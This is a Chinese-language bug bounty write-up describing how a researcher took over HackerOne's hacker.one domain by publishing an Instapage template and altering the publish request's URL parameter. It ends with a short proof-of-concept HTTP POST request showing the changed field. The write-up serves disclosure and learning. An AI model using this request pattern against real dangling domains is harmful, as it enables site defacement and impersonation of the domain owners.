 # 漏洞散记
##  hackerone的子域劫持
> 作者能够劫持操作用户的过期域，在上面写自己喜欢的东西，而漏洞的关键则是instapage

> 漏洞价值:100$

借作者语：
> Instapage is a service that lets you build landing pages for your online marketing and promotion campaigns with ease. It offers features such as A/B Testing, multiple campaign management, easy page building, and a lot more!

而hackerone平台则是使用了这个service，让用户可以在他们自己的domain/subdomains上部署template

# 挖洞过程

hackerone鼓励世界各地的hacker去寻找Bug，并会给予勋章以证明，而作者想获得的是**Hacking Hackers**这个勋章，
所以才针对hackerone平台进行了一次渗透

在hackerone发布的**inscope domain list**中，存在一个**hacker.one**(现在已经访问不了了)吸引了作者的注意力，

然后就引发了**一个关键点**，作者打开网址后看见页面上输出了错误，而这错误作者辨识发现，此错误只能发生于以下情况：

![error](http://www.geekboy.ninja/blog/wp-content/uploads/2016/09/BxwVteM-768x339.jpg)

```
I come to know it was Instapage error which occurs when service get expired or domain or subdoamin not linked properly

```
作者想到，他自己可以发布一个template给instapage的过期用户域或者错误配置显示，而hackerone是instapage的用户
，那么进行自定义页面

作者到instapage上自己写了一个template，然后publish时更改参数，将提交的URL改变，改成www.hacker.one
则改变了页面

![success](http://www.geekboy.ninja/blog/wp-content/uploads/2016/09/insta-0day-768x258.jpg)

## POC:
```
POST /ajax/builder2/publish/2340488 HTTP/1.1
Host: app.instapage.com
User-Agent: Mozilla/5.0 (Windows NT 6.3; rv:36.0) Gecko/20100101 Firefox/36.04
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://app.instapage.com/builder2?id=2340488
Content-Length: 31
Cookie: cookie_value
Connection: close

version=1&url=www.hacker.one
```

## 结语

其实总的来说，这并不算是hackerone的漏洞，而是instapage的漏洞，而hackerone很不幸是其用户，所以才导致
作者成功篡改了页面内容，从而拿到勋章，严格的讲，此漏洞应该属于instapage的越权，正因为如此，此漏洞才会被
hackerone平台定义为**100$**，github也是instapage的用户哦
